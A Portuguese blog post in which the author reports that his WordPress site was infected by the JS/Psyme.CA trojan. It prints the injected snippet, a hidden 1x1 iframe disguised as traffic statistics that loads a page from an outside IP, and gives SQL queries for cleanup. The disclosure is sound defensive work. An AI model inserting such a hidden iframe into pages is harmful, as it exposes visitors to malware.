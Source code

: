 ```yaml
--- 
wordpress_id: 914
title: "\xC3\x89 macumba?"
wordpress_url: http://www.tiagoluchini.eu/?p=914
layout: post
---
```

Não bastassem os problemas com o e-mail que estou enfrentando, ganhei outro de presente! Acaso você esteja com dificuldades para acessar o site não se preocupe: você não está sozinho!

O blog foi contaminado pelo trojan JS/Psyme.CA através de uma vulnerabilidade de seguranca do WordPress. Em linguagem humana isso quer dizer que alguém me sacaneou porque outro alguém deixou a porta aberta.

A principal característica desse trojan é espalhar o código abaixo por todas as suas páginas:
<pre><span>&lt;!-- Traffic Statistics --&gt;</span></pre>
<pre><span>&lt;iframe src=http://61.132.75.71/iframe/wp-stats.php width=1 height=1 frameborder=0&gt;&lt;/iframe&gt;</span></pre>
<pre>&lt;!-- End Traffic Statistics --&gt;</pre>
Além disso ele aparentemente altera o código dos seus plugins.

O problema afeta todas as versões do WordPress até a 2.3.3 (sim, mesmo as assim recentes).

Para resolver o problema terá que realizar uma atualizacão para o WordPress 2.5 (pelo menos) e ainda procurar rastros do trojan no seu conteúdo. Haja trabalho!

Duas instrucões SQL podem ajudar na aventura:
<pre>SELECT * FROM `PREFIX_comments` WHERE `comment_content` LIKE ‘%&lt;iframe%;</pre>
<pre>SELECT * FROM `PREFIX_posts` WHERE `post_title` LIKE ‘%&lt;iframe%’;</pre>
Lembre-se de trocar PREFIX pelo prefixo utilizado pelo seu WordPress.
